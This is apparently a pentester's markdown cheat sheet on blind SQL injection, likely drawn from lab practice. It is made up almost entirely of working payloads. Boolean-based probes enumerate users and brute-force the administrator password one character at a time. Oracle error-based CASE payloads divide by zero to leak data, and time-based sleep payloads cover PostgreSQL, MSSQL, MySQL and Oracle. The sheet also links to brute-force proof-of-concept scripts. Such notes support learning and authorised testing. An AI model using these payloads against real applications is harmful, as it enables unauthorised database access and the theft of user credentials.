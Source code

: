 
#### Testing booleans (for BSQLi)
Remember to try `AND` `OR` `HAVING`  
we can test the ability bruteforce/presence of users by selecting a char, limiting to 1 and then comparing, so the below would become `a=a`  
`b' OR (select 'a' from users limit 1)='a`  
Now we can take a step further and confirm we have a user called "Administrator"  
`b' OR (select 'a' from users where username='administrator')='a`  
The ball keeps on rolling, and we can begin the makings of bruteforce attack by testing the length of password  
`b' OR (select 'a' from users where username='administrator' and length(password)>1)='a;`  
Once we have the length of the password we can bruteforce with a python script or intruder.
For intruder we use cluster bomb, and use the grep option to flag responses we know differ in `FALSE` and `TRUE`  
`b' OR (select substring (password,§1§,1) from users where username='administrator')='§a§`  

# BlindSQL:
Truth must be "infered" generally with a sleep function, a 500 response, or DNS callout to webhooks/collaborator

Once we can get an injection, we need to confirm that the server is interpreting the injection as a valid query. This is done with a subquery.  
We initially send an empty query, if a 500 is returned, we may need to complete the query by selecting from a db. Ifreceive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.
`' ||(select '')||'`  
`' ||(select '' from dual)||'`  
We can then start to infer information, such as the existence of `users`  
`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
We weaponise this using the CASE statement, which will test a condition and if true/false will evaluate an expression.  
So, in the event that CASE comes out TRUE, we divide by 0 - causing an error.  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`  
Now we start to infer the existence of information (users, passwords, tables, etc)  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`'||(SELECT CASE WHEN length(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 
Length of password  
`'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'. Then send: TrackingId='||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

### sleep examples
postgresql  
  * `'||pg_sleep(10)--`  
mssql  
  * `if 1=1 waitfor delay'0:0:08'--`  
  * `' if(SUBSTRING(VERSION(),'1','0')=='{c}') waitfor delay'0:0:08'--`  
mysql
  * `1-SLEEP(15)`
  * `1-BENCHMARK(100000000, rand())`
  * `1-IF(MID(VERSION(),1,1) = '5', SLEEP(15), 0)`
sqlserver
 * `1; WAIT FOR DELAY '00:00:15'`
 * `1; IF SYSTEM_USER='sa' WAIT FOR DELAY '00:00:15'`
oracle #DOES NOT support stacked queries, if you come accross this you will to inject into PL/SQL code block
 * `BEGIN DBMS_LOCK.SLEEP(15); END;`

#### Example PoCs: 
[BlindSQLI Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/bruteforce_blindsqli.py)  
[BlindNOsqli Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/brute_mongoDB_nosqli.py)  
